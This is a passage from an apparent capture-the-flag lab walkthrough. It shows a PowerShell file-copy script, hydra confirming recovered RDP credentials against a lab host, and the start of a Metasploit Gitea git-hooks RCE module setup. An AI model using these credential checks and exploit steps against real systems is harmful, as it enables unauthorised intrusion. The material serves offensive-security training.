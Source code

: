 ```
    New-Item -Path $destinationDir -ItemType Directory -Force
}

try {
    New-PSDrive -Name "Z" -PSProvider FileSystem -Root $remoteShare -Credential $credential -ErrorAction Stop

    if (Test-Path "Z:\$sourceFileName") {
        Copy-Item -Path "Z:\$sourceFileName" -Destination $destinationFile -Force
        Write-Output "File copied successfully to $destinationFile"
    } else {
        Write-Output "Error: File '$sourceFileName' not found in $remoteShare"
    }
} catch {
    Write-Output "An error occurred: $_"
} finally {
    Remove-PSDrive -Name "Z" -Force -ErrorAction SilentlyContinue
}      
```

 We can try them against another service such as RDP. Also, we can check if they are valid by using a brute-force tool called hydra. Be aware that brute forcing in general is to be considered as a last resort, due to the "noise" of the attack and the large number of alerts that will be produced in a hardened environment (which could lead to being banned from the network). But since we have just a single set of credentials to verify, we can use it on RDP like so:
```
┌──(dd0x㉿kali)-[~]
└─$ hydra -l john -p "SuperSecurePass123" rdp://10.129.230.148
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 11:12:44
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking rdp://10.129.230.148:3389/
[3389][rdp] host: 10.129.230.148   login: john   password: SuperSecurePass123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-25 11:12:49
```
As you can see, hydra just confirmed that these credentials are valid and we can use an RDP session to work on our target.

### Gitea Exploitation
Now, let’s jump to Gitea. We will use msfconsole again and search through the database for any known exploits.

```
msf6 exploit(multi/http/gitea_git_hooks_rce) > show options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   PASSWORD   SuperSecurePass123  yes       Password to use
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS     10.129.230.148      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      3000                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
```
